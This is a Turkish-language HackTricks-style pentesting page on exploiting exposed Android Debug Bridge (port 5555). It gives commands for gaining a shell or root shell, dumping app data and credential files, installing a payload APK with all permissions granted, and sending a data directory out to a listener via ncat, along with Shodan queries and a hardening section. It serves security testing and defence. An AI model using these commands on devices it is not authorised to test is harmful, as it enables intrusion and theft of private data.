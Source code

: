 # 5555 - Android Debug Bridge

{{#include ../banners/hacktricks-training.md}}

## Temel Bilgiler

From [the docs](https://developer.android.com/studio/command-line/adb):

Android Debug Bridge (adb), Android tabanlı cihazlar ve emülatörlerle iletişim kurmak için bir komut satırı aracıdır. Tipik eylemler arasında paket yükleme, hata ayıklama ve cihazda etkileşimli bir Unix kabuğu alma bulunmaktadır.

- Tarihsel varsayılan TCP portu: 5555 (klasik "adb tcpip" modu).
- Modern Kablosuz hata ayıklama (Android 11+) TLS eşleştirme ve mDNS hizmet keşfi kullanır. Bağlantı portu dinamik olup mDNS aracılığıyla keşfedilir; 5555 olmayabilir. Eşleştirme, adb pair host:port ile yapılır ve ardından adb connect gelir. Aşağıdaki notlara saldırgan etkileri için bakın.

Örnek nmap parmak izi:
```
PORT     STATE SERVICE VERSION
5555/tcp open  adb     Android Debug Bridge device (name: msm8909; model: N3; device: msm8909)
```
## Bağlan

Eğer ADB'yi açık ve erişilebilir bulursanız, hızlıca bağlanmayı ve listelemeyi deneyin:
```bash
adb connect <ip>[:<port>]      # Default is 5555 for classic mode
adb devices -l                 # Confirm it shows as "device" (not unauthorized/offline)
adb shell                      # Get an interactive shell (uid usually shell)
whoami; id; getprop ro.debuggable ro.secure service.adb.tcp.port
adb root || true               # Works on eng/userdebug/insecure builds, many emulators/IoT
```
- Eğer cihaz ADB kimlik doğrulamasını zorluyorsa (ro.adb.secure=1), önceden yetkilendirilmiş olmanız (USB RSA kimlik doğrulaması) veya Android 11+ Kablosuz hata ayıklama eşleştirmesini kullanmanız gerekecek (bu, cihazda görüntülenen bir kerelik kodu gerektirir).
- Bazı üretici görüntüleri, mühendislik/kullanıcı hata ayıklama derlemeleri, emülatörler, TV'ler, STB'ler ve geliştirme kitleri, kimlik doğrulaması olmadan veya adbd'nin root olarak çalıştığı durumlarda adbd'yi açığa çıkarır. Bu durumlarda genellikle doğrudan bir shell veya root shell'e geçersiniz.

Genel bir ADB komut referansı için, bakınız:

{{#ref}}
../mobile-pentesting/android-app-pentesting/adb-commands.md
{{#endref}}

## Hızlı Post-Exploitation

Shell'e sahip olduğunuzda, ayrıcalıkları ve SELinux bağlamını doğrulayın:
```bash
id; getenforce; getprop ro.build.type ro.product.model ro.build.fingerprint
```
### Verileri Listele ve Yakala

- Üçüncü taraf uygulamaları ve yolları listele:
```bash
pm list packages -3
pm path <pkg>
```
- Eğer root erişiminiz varsa (adb root veya su çalışır), /data'ya doğrudan erişebilirsiniz. Aksi takdirde, hata ayıklanabilir uygulamalar için run-as kullanmayı tercih edin:
```bash
# Root olmadan, hata ayıklanabilir bir uygulama için
run-as <pkg> sh -c 'cd /data/data/<pkg> && tar cf - .' | tar xf - -C ./loot/<pkg>

# Root ile
cp -a /data/data/<pkg> /sdcard/<pkg>
exit
adb pull "/sdcard/<pkg>"
```
- Kullanışlı sistem belgeleri (root gereklidir):
- /data/system/users/0/accounts.db ve ilgili AccountManager verileri
- /data/misc/wifi/ (eski sürümlerde ağ yapılandırmaları/anahtarlar)
- /data/data/<pkg> altında uygulamaya özel SQLite DB'leri ve shared_prefs

Bunu hassas bilgileri (örneğin, uygulama sırları) almak için kullanabilirsiniz. Chrome veri dikkate alımları hakkında notlar için, [burada](https://github.com/carlospolop/hacktricks/issues/274) belirtilen konuyu inceleyin.

### Kod yürütme ve yük teslimi

- Kurulum yapın ve çalışma zamanı izinlerini otomatik olarak verin:
```bash
adb install -r -g payload.apk         # -g, manifestte belirtilen tüm çalışma zamanı izinlerini verir
adb shell monkey -p <pkg> -c android.intent.category.LAUNCHER 1
```
- Etkinlikleri/hizmetleri/broadcast'ları doğrudan başlatın:
```bash
adb shell am start -n <pkg>/<activity>
adb shell am startservice -n <pkg>/<service>
adb shell am broadcast -a <action>
```

### Port yönlendirme ve pivotlama

Root olmadan bile, adb yerel portları cihaz portlarına ve tersine yönlendirebilir. Bu, cihazda yerel olarak bağlı hizmetlere erişmek veya saldırgan hizmetlerini cihaza açmak için yararlıdır.

- Host->cihaz yönlendirme (cihazda yerel bir hizmete ev sahibi bilgisayarınızdan erişin):
```bash
adb forward tcp:2222 tcp:22       # Cihaz SSH çalıştırıyorsa (örneğin, Termux/Dropbear)
adb forward tcp:8081 tcp:8080     # Uygulamanın yerel hata ayıklama sunucusunu aç
```
- Ters cihaz->host yönlendirme (cihazın ev sahibi bilgisayarınızdaki bir hizmete ulaşmasına izin verin):
```bash
adb reverse tcp:1080 tcp:1080     # Cihaz uygulamaları artık host:1080'e 127.0.0.1:1080 olarak ulaşabilir
```
- Soketler üzerinden dosya dışa aktarımı (sdcard yazma yok):
```bash
# Host'ta: dinle
ncat -lvp 9000 > dump.tar
# Cihazda: dizini tar olarak gönder (root veya run-as uygun olduğunda)
adb shell "tar cf - /data/data/<pkg>" | ncat <HOST_IP> 9000
```

## Kablosuz Hata Ayıklama (Android 11+)

Modern Android, cihaz tarafı eşleştirme ve mDNS keşfi ile TLS korumalı kablosuz hata ayıklama uygular:
```bash
# On the device: Developer options -> Wireless debugging -> Pair device with pairing code
# On attacker host (same L2 network, mDNS allowed):
adb pair <device_ip>:<pair_port>   # Enter the 6-digit code shown on device
adb mdns services                  # Discover _adb-tls-connect._tcp / _adb._tcp services
adb connect <device_ip>:<conn_port>
```
Notlar
- Portlar dinamik; 5555 varsaymayın. mDNS hizmet adları şöyle görünür:
- _adb-tls-pairing._tcp (eşleştirme)
- _adb-tls-connect._tcp (eşleştirilmiş bağlantı)
- _adb._tcp (eski/normal)
- Eğer mDNS filtrelenmişse, klasik USB destekli etkinleştirme bazı sürümlerde hala çalışabilir: `adb tcpip 5555` ardından `adb connect <ip>:5555` (yeniden başlatmaya kadar).

Saldırgan etkileri: Cihazın UI'si ile etkileşimde bulunabiliyorsanız (örneğin, fiziksel erişim veya mobil MDM yanlış yapılandırması) Kablosuz hata ayıklamayı etkinleştirip eşleştirme kodunu görebilirseniz, kablo olmadan uzun süreli eşleştirilmiş bir ADB kanalı kurabilirsiniz. Bazı OEM'ler, eşleştirme olmadan mühendislik/geliştirme görüntülerinde ADB'yi TCP üzerinden açar—her zaman kontrol edin.

## Güçlendirme / Tespit

Savunucular, erişilebilir herhangi bir adbd (TCP) için kritik risk olduğunu varsaymalıdır.

- Gerekmediğinde ADB ve Kablosuz hata ayıklamayı devre dışı bırakın. Geliştirici seçeneklerinde USB hata ayıklama yetkilendirmelerini iptal edin.
- Ağ politikasının güvenilmeyen segmentlerde gelen TCP/5555 ve mDNS tabanlı ADB keşfini engellediğinden emin olun.
- Kontrolünüz altındaki cihazlarda:
```bash
settings put global adb_enabled 0
setprop service.adb.tcp.port -1   # TCP dinlemeyi devre dışı bırak (veya kullan: adb usb)
stop adbd; start adbd             # daemon'ı yeniden başlat
```
- Kurumsal ağlarda `_adb._tcp`, `_adb-tls-connect._tcp`, `_adb-tls-pairing._tcp` için mDNS kayıtlarını izleyin ve beklenmeyen 5555 dinleyicileri için uyarılar oluşturun.
- Güvensiz sürümler için envanter: `getprop ro.debuggable`, `ro.build.type`, ve `ro.adb.secure`.

## Shodan

- android debug bridge
- port:5555 product:"Android Debug Bridge"

## Referanslar

- Android Developers – Android Debug Bridge (adb): https://developer.android.com/studio/command-line/adb
- AOSP – ADB over Wi‑Fi, eşleştirme ve mDNS hizmet adları: https://android.googlesource.com/platform/packages/modules/adb/+/refs/tags/android-vts-15.0_r2/docs/dev/adb_wifi.md
{{#include ../banners/hacktricks-training.md}}
